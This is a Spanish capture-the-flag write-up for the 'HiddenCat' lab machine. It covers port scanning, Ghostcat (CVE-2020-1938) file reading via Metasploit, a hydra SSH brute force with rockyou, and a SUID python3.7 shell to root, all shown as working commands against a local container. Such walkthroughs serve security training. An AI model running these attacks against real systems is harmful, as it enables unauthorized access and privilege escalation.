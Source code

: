 # **Máquina: HiddenCat**

### **Dificultad:** Fácil

### 📝 **Descripción:**

HiddenCat es una máquina diseñada para poner a prueba habilidades básicas de reconocimiento, explotación de servicios vulnerables y escalada de privilegios. Utiliza tecnologías comunes como Apache Tomcat y está basada en Linux.

### 🎯 **Objetivo:**

Obtener acceso inicial a través de un servicio vulnerable y escalar privilegios hasta obtener acceso como root.

![Logo](Imágenes/2025-05-17_13-08.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `hiddencat.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip hiddencat.zip
sudo bash auto_deploy.sh hiddencat.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **8009/tcp** – AJP13
* **8080/tcp** – HTTP (Apache Tomcat)

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,8009,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento del servicio web**

Accedemos al servicio en el puerto 8080 (`http://172.17.0.3:8080/`) y observamos que se trata de un servidor **Apache Tomcat/9.0.30**.

Intentamos buscar vulnerabilidades en `searchsploit`, pero ninguna parecía aplicable. Sin embargo, investigando en línea encontramos la vulnerabilidad **Ghostcat (CVE-2020-1938)**, que afecta el conector AJP (puerto 8009).

Referencia: [Exploit-DB 49039](https://www.exploit-db.com/exploits/49039)

![pagina](Imágenes/Capturas_4.png)
![version](Imágenes/Capturas_5.png)

---

## 🧰 **Explotación de Ghostcat con Metasploit**

Para explotar Ghostcat, copiamos el código del exploit y lo colocamos en la ruta personalizada de Metasploit:

```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/http/
nano ~/.msf4/modules/auxiliary/scanner/http/ghostcat.rb
```

Luego, iniciamos `msfconsole`, recargamos los módulos y ejecutamos el exploit:

```bash
msfconsole
reload_all
use auxiliary/scanner/http/ghostcat
```

Configuramos las siguientes opciones:

```
set RHOSTS 172.17.0.3
set RPORT 8009
set FILEPATH WEB-INF/web.xml
run
```

![inicio](Imágenes/Capturas_6.png)

La explotación fue exitosa y se obtuvo el archivo `WEB-INF/web.xml`, donde encontramos un usuario potencial: **jerry**.

![usuario](Imágenes/Capturas_8.png)

> 🔎 **Nota**:
> El parámetro `FILEPATH` especifica el archivo que se desea leer en el servidor remoto. Aprovecha el conector AJP mal configurado (en el puerto 8009), permitiendo leer archivos sensibles fuera del contexto HTTP normal.

---

## 🔐 **Fuerza bruta SSH**

Con el usuario `jerry` identificado, usamos `hydra` para realizar un ataque de fuerza bruta al servicio SSH (puerto 22):

```bash
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

Credenciales obtenidas:

* **Usuario:** jerry
* **Contraseña:** chocolate

Con estas credenciales, accedemos exitosamente por SSH:

```bash
ssh jerry@172.17.0.3
```

![ssh](Imágenes/Capturas_9.png)

---

## 🧗 **Escalada de privilegios**

Dentro del sistema, buscamos archivos con el bit SUID activo:

```bash
find / -perm -4000 2>/dev/null
```

Descubrimos que `python3.7` tiene el bit SUID, lo que permite ejecutar código con privilegios elevados.

Ejecutamos el siguiente comando para obtener una shell como root:

```bash
/usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Verificamos con `whoami` y confirmamos el acceso como **root**.

![ssh](Imágenes/Capturas_10.png)

---

✅ **Resumen de escalada:**

Se identificó `python3.7` con permisos SUID, lo que permitió ejecutar código como root. Al invocar una shell con privilegios usando Python, se logró acceso como usuario root y se completó la escalada de privilegios.

---

Se identificó python3.7 con SUID usando find / -perm -4000 2>/dev/null, lo que permite ejecutar código como root. Con /usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' se abrió una shell privilegiada. Finalmente, whoami confirmó el acceso como root. Así se logró la escalada local desde jerry a root.
![ssh](Imágenes/Capturas_10.png)

